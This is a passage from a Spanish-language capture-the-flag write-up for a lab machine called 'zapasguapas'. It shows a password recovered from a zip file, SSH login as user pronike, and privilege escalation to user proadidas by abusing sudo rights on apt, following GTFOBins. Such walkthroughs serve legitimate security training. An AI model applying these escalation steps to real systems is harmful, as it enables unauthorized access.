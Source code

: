 Al descomprimirlo, nos da un archivo de texto que se llama **password.txt**:
```bash
unzip importante.zip
Archive:  importante.zip
[importante.zip] password.txt password: 
  inflating: password.txt
```

Y resulta ser la contraseña del **usuario pronike** que nos va a permitir entrar al **servicio SSH**:
```bash
ssh pronike@192.168.1.110
pronike@192.168.1.110's password:
Linux zapasguapas 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
pronike@zapasguapas:~$
```

<br>

<h2 id="binAPT">Utilizando Binario apt para Escalar Privilegios y Convertirnos en Usuario proadidas</h2>

Revisando nuestro privilegios como el **usuario pronike**, encontramos lo siguiente:
```bash
pronike@zapasguapas:~$ sudo -l
Matching Defaults entries for pronike on zapasguapas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pronike may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
```
Podemos ejecutar el **binario apt** como el **usuario proadidas**.

Si buscamos en **GTFOBins**, podemos encontrar una forma con la que podemos escalar privilegios con este binario:
* <a href="https://gtfobins.github.io/gtfobins/apt/" target="_blank">GFTOBins: apt</a>

Ocuparemos la opción A.

Apliquémoslo:
```bash
pronike@zapasguapas:~$ sudo -u proadidas apt changelog apt
```

Una vez que lo ejecutes, debes indicarle que te dé abra una shell, justo como dice **GTFOBins**:

<p align="center">
<img src="/assets/images/THL-writeup-zapasguapas/Captura14.png">
</p>
